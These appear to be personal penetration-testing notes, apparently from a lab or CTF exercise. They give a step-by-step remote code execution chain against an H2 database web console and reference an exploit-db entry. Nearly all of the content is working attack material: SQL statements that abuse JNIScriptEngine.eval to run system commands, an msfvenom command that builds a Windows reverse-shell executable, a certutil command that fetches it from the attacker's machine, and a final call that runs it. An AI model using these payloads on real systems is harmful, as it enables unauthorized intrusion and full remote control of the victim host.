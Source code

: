 https://www.exploit-db.com/exploits/49384

1 by 1, put in each SQL command into the text box and hit run.

Test to make sure RCE works with whoami:
```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\Z").next()');
```

![[Pasted image 20220404143802.png]]

```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd /c dir C:\\").getInputStream()).useDelimiter("\\Z").next()');
```

```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd /c dir C:\\").getInputStream()).useDelimiter("\\Z").next()');
```

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=80 -f exe > reverse64.exe
```

```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -split -f http://$KALI/reverse64.exe C:\\Users\\$USER\\Desktop\\reverse64.exe").getInputStream()).useDelimiter("\\Z").next()');
```

![[rlwrap]]

```sql H2
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:\\Users\\tony\\Desktop\\reverse64.exe").getInputStream()).useDelimiter("\\Z").next()');
```


